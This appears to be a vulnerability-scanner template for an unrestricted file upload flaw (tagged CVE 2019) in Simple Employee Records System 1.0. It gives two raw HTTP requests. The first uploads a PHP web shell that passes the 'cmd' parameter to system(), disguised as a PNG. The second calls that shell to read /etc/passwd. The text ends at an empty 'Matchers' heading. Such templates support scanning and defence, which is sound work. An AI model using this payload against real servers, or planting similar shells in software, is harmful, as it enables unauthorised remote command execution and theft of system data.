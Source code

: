 **Type - status**

- status
  1. 200

---

# Simple Employee Records System 1.0 - Unrestricted File Upload

## Description

- Simple Employee Records System 1.0 contains an arbitrary file upload vulnerability due to client-side validation of file extensions. This can be used to upload executable code to the server to obtain access or perform remote command execution.

- severity - high
- tags - edb,cve,cve2019,rce,intrusive,fileupload

## Requests

### Step - 1

```
POST /dashboard/uploadID.php HTTP/1.1
Host: {{Hostname}}
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------5825462663702204104870787337

-----------------------------5825462663702204104870787337
Content-Disposition: form-data; name="employee_ID"; filename="poc.php"
Content-Type: image/png

<?php
$cmd=$_GET['cmd'];
system($cmd);
?>
-----------------------------5825462663702204104870787337--

```

### Step - 2

```
GET /uploads/employees_ids/{{endpoint}}?cmd=cat%20/etc/passwd HTTP/1.1
Host: {{Hostname}}

```

### Matchers
